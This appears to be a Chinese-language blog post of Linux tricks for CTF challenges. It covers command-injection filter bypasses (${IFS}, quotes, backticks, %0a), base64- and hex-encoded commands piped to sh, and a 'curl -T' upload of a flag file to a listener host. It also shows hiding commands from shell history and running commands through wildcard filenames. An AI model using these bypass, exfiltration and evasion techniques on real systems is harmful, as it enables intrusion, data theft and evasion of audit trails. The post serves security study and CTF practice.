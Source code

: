 ```yaml
---
layout: post
title: Some tricks of Linux in CTF 
comments: false
description: "CTF中大多数环境搭建在 Linux 平台上，从而有了许多可借助的技巧来考察"
keywords: "Tricks"
---
```


## 特殊符号绕过

**场景一：限制空格**

假如需要实现 **cat flag.txt** 命令读取flag：

1.利用 **<>** 重定向符：

![20170221143830.png](/assets/images/2017-02-12/3100098584.png)

2.利用 **${IFS}** 变量（内部域分隔符）：

![20170221143859.png](/assets/images/2017-02-12/2156314216.png)

3.利用 **{,}** 来代替：

![20170302224603.png](/assets/images/2017-02-12/560179516.png)

4.利用 **$IFS$9**：

**场景二：不允许指定命令执行**

假如需要执行 **uname** 命令，但过滤掉了 uname 字符：

1.利用参数拼接（黑名单绕过）：

![20170221144301.png](/assets/images/2017-02-12/4063339748.png)

2.利用 **‘ “** 单、双引号（碰到 escapeshellcmd() 时有效bypass）：

![20170221144302.png](/assets/images/2017-02-12/3875299444.png)

单、双引号成对出现不过滤，表示空字符串；

3.利用 **\`** 小引号，就是Tab上那个引号：

![20170222193358.png](/assets/images/2017-02-12/1716367324.png)

如果一串命令中存在\`\`，会先执行引号内的命令；

这也就是利用DNS传数据的利用点；

4.利用转移符号 **\\** 反斜线来绕过：

![2017053010454701.png](/assets/images/2017-02-12/210620643.png)

**场景三：一次执行多个命令**

假如需要执行 **uname **和**id** 命令：

1.利用shell脚本结束符 **;** 分号：

![20170221145654.png](/assets/images/2017-02-12/257350939.png)

2.利用逻辑符号 **| || & &&**：

![20170221144831.png](/assets/images/2017-02-12/3980873030.png)

3.在Web页面执行时可以利用回车的url编码 **%0a** 来绕过：

![20170221162118.png](/assets/images/2017-02-12/2766729364.png)

类似于在shell脚本下放两条命令；

## 命令编码绕过

base64：

```
root@L4oZu1:~# printf "whoami" | base64
d2hvYW1p
root@L4oZu1:~# printf "d2hvYW1p" | base64 -d | sh
root
```

xxd（16进制）:

```
root@L4oZu1:~# printf "whoami" | xxd -p
77686f616d69
root@L4oZu1:~# printf "77686f616d69" | xxd -r -p | sh
root
```

## 字符替换

Linux：

```
root@L4oZu1:~# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@L4oZu1:~# echo ${PATH:9:1}
l
root@L4oZu1:~# echo ${PATH:9:1}${PATH:11:1}
ls
root@L4oZu1:~# ${PATH:9:1}${PATH:11:1} 
Desktop  公共  模板  视频  图片  文档  下载  音乐  桌面
如果过滤了冒号:
root@L4oZu1:~# echo $(expr substr $PATH 1 1)
/
root@L4oZu1:~# echo $(expr substr $PATH 2 1)
u
```

Windows：

```
E:\1-main\0x01\exp\clone
λ echo %PATH%
E:\bodkin\cmder\bin;---

E:\1-main\0x01\exp\clone
λ echo %PATH:~7,1%
i

E:\1-main\0x01\exp\clone
λ echo %PATH:~7,1%%PATH:~5,1%
id

E:\1-main\0x01\exp\clone
λ %PATH:~7,1%%PATH:~5,1%
uid=197608(L4oZu1) gid=197121 groups=197121
```

Linux：${PATH~: a :b}

Windows：%PATH:~a,b%

其中a表示从a位开始，b表示截取的长度；

## curl -T 上传文件

利用`curl -T`来上传文件到主机并通过监听来拿文件内容：

Linux服务器：

```
root@L4oZu1:/var/www/html# cat flag.txt 
flag{456b7016a916a4b178dd72b947c152b7}
root@L4oZu1:/var/www/html# curl -T ./flag.txt http://192.168.2.101:2222
...
```

Windows主机：

```
E:\1-main\0x01\exp\clone
λ nc.exe -l -vv -p 2222
listening on [any] 2222 ...
192.168.2.102: inverse host lookup failed: h_errno 11004
connect to [192.168.2.101] from (UNKNOWN) [192.168.2.102] 51096
PUT /flag.txt HTTP/1.1
Host: 192.168.2.101:2222
User-Agent: curl/7.52.1
Accept: */*
Content-Length: 39
Expect: 100-continue

flag{456b7016a916a4b178dd72b947c152b7}
 sent 0, rcvd 171
```

curl不仅仅可以下载文件，还可以上传文件，通过内置option -T来实现；

就可以利用curl的这个功能来将文件PUT上传给我们的主机，由于`PUT method`是基于HTTP协议的，所以主机需要支持web服务，然后带上端口；

通过监听主机相应的端口号`nc.exe` -l -vv -p 2222，即可拿到文件内容；

## 防止命令被记录

在终端执行的每一条命令都会被记录在 history 文件中？

不是的，如果在命令前加个`空格`，则会不被记录；

并且前后重复的命令不会被记录；

![20171204150542.png](/assets/images/2017-02-12/2501212090.png)

note：

debain系可以，centos系不行；

## 利用文件名执行命令

`*`是Linux下的通配符，它会将符合模式的文件列出来，之后执行；

```
➜  ls
➜  touch bash
➜  echo id >> z.sh
➜  ls
bash z.sh
➜  *
uid=501(go0s) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
```
